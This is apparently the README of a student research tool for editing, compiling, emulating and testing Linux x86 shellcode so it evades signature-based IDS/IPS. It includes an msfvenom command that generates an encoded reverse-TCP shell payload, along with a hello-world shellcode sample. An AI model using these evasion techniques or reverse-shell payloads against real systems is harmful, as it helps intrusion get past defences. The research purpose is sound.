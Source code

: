 # Shellcode Assistant

A useful helper script for hex editing, writing and/or testing **Linux x86 shellcode** to bypass IDS/IPS.

**Shellcode Assistant is designed to be used on Kali Linux Rolling x86**

The tool was developed for a Offensive Technologies research project by students of OS3. We were looking for a comfortable and efficient way for altering existing shellcode. With this tool, the experiments of our research can easily be reproduced.

This tool is designed to make the process of altering shellcode to bypass **signature based** detection easier. It takes a raw shellcode file as input and offers various options, including dumping code in hexadecimal or Intel x86 ASM format, compiling code using a C wrapper and executing and checking a raw shellcode file for a specific string. In addition, it can emulate, analyse and generate a graph for x86 shellcode using Libemu. Automatic recompilation, which triggers when the modification time stamp changes, is another useful feature that might save time when raw shellcode is manually modified and saved using a hex editor. **We recommend using the automatic recompilation mode**.

The script also provides an **interactive command line interface**, similar to Metasploit's nasm-shell, for assembling and disassembling instructions. It does this using the Capstone and Keystone libraries.

## Requirements

Python 3 (≥ 3.5)

Capstone

Keystone

Libemu

gcc

## Setup

```
# python3 libraries
pip3 install capstone
pip3 install keystone-engine
pip3 install colorama

# gcc is required for compiling the raw shellcode into an executable
sudo apt install build-essential

# libemu is required for outputting a graph using Libemu's sctest
sudo apt install graphviz
sudo apt install libemu2
```

## Usage

```
=============================================================
                -- Shellcode Assistant v1.0 --
=============================================================

usage: shellcode_assistant.py [-h] -f FILE [-o OFFSET] [-t] [-s STDOUT]
                              [-se STDERR] [-x] [-c] [-e] [-d] [-a] [-A] [-R]
                              [-ob]

== Tool to assist a user in modifiying shellcode ==

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Enter path to file.
  -o OFFSET, --offset OFFSET
                        Set hexadecimal program offset.
  -t, --test            Run and test compiled executable.
  -s STDOUT, --stdout STDOUT
                        Check STDOUT for a specific string.
  -se STDERR, --stderr STDERR
                        Check STDERR for a specific string.
  -x, --hexdump         Dump hex code.
  -c, --compile         Compile file using C wrapper.
  -e, --emulate         Emulate and analyse shellcode using Libemu.
  -d, --disassemble     Disassemble shellcode.
  -a, --assembler       Start ASM interactive assembler mode.
  -A, --all             Run all functions above.
  -R, --autorecompile   Automatic recompiling and testing upon file
                        modification time change.
  -ob, --objdump        Use Linux objdump instead of Python Capstone library.
```

*The Python Capstone library might truncate code in certain cases. Use --objdump if necessary.*

## Examples

```
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -A -s "Hello World" -o 40404040
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -R
```

### ASM Interactive Assembler / Dissassembler

```
...
0x40404064    2    31 DB               xor    ebx, ebx
0x40404066    2    CD 80               int    0x8
---------------------------------------
Last Modified: Sat May 16 16:48:48 2020
---------------------------------------
asm > ?
x86-instruction | recompile | test | emulate | ls | clear | exit
asm > jmp esp; inc ecx; inc ebx
\xFF\xE4\x41\x43
asm > 0xFFE5
jmp    ebp
asm > \xFF\xE6
jmp    esi
asm > emulate

Shellcode emulated:
Diagram saved as 'testing.bin.dot' & 'testing.bin.png'
---------------------------------------
asm >
```

### Obtaining raw shellcode

#### Method 1 - Compiling ASM and Dumping Code Section to HEX

```
1. Compile ASM Code
nasm -f elf32 helloworld.asm -o helloworld.o

2. Dump object code to hex code
objdump -d ./helloworld.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

3. Save hex shellcode to raw shellcode file using echo
echo -e "\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\x52\x68\x72\x6c\x64\x0a\x68\x6f\x20\x57\x6f\x68\x48\x65\x6c\x6c\x89\xe1\xb2\x0c\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80" > testing.bin
```

#### Method 2 - Using Metasploit's Shellcode Generator

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f raw -b "\x00" -e x86/shikata_ga_nai -o testing.bin
```

### Demo - Modifiying Shikata Ga Nai Encoded 'Hello World' Shellcode

<img title="" src="https://media.giphy.com/media/kDTt8Q7ndWlbJaQdJv/giphy.gif" alt="" data-align="center">

## Authors

Alexander-OS3

Jelle-OS3

## TO-DO

Create x64 version of script

Create Windows versions of script

